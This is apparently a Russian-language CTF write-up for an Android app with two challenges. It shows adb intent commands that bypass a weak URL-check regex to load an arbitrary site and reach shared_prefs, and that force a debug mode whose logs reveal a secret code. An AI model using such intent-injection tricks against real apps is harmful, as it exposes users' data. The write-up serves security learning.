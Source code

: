 # casino


## Wiki 
В коде уязвимая регулярка которая просто проверяет на наличие в строке https://en.wikipedia.org
![image](https://github.com/ambushidozho/casino/assets/102957421/b3aad247-f8bb-4bc5-ab12-5da175033760)
Следовательно 
```sh
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Wiki --es url https://vk.com?test='https://en.wikipedia.org'
```
с помощью такого интента мы можем поместить ссылку на любой сайт злоумышленника а также получить доступ к папке shared_pref

## Casino
В коде мы видим mode разработки, меняем его на debug, вводим буквенный код, при ошибке читаем логи, видим верный код, вводим, победа
```sh
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Casino --es mode debug
```
```sh
adb logcat | grep 'expected:'
```
![tg_image_1376263483](https://github.com/ambushidozho/casino/assets/102957421/c6d9b76d-d747-44cc-a235-e2c7e0c20708)

![image](https://github.com/ambushidozho/casino/assets/102957421/ce553dcb-8f44-4274-8ea1-34d8599ae25f)

Вводим код, побеждаем

![image](https://github.com/ambushidozho/casino/assets/102957421/834aefdd-81b2-4dac-a8e6-140f0c8a9600)

